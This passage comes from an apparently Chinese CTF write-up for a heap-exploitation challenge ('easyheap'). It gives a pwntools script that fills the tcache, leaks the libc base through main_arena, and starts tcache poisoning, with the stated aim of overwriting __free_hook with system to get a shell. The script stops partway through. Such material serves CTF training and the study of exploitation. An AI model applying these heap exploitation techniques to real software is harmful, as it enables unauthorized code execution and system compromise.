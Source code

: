 最后构造fake chunk改写`__free_hook`为`system`后释放一个内容为`"/bin/sh"`的chunk即可get shell

构造exp如下：

```
from pwn import *

p = process("./easyheap")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.31.so")

def cmd(command:int):
    p.recvuntil(b">> ")
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content: ")
    p.sendline(content)

def newWithZero(zero_location:int, size:int, content):
    cmd(1)
    p.recvuntil(b"Size: ")
    p.sendline(str(zero_location).encode())
    p.recvuntil(b"Invalid size.")
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content: ")
    p.sendline(content)

def dump(index:int):
    cmd(2)
    p.recvuntil(b"Index: ")
    p.sendline(str(index).encode())
    p.recvuntil(b"Content: ")

def delete(index:int):
    cmd(3)
    p.recvuntil(b"Index: ")
    p.sendline(str(index).encode())

def exp():

    log.info("Start filling the tcache")
    for i in range(8):
        new(0x80, "arttnba3")
    for i in range(7):
        delete(7 - i)

    log.info("Start leaking the libc addr")
    delete(0)
    newWithZero(0x100, 0x1, b'\xe0') 
    dump(0)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 352
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.info("Libc addr:" + str(hex(libc_base)))

    log.info("Start tcache poisoning")
    new(0x70, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x50, "arttnba3") 
    new(0x50, "arttnba3") 
    new(0x50, "arttnba3") 
```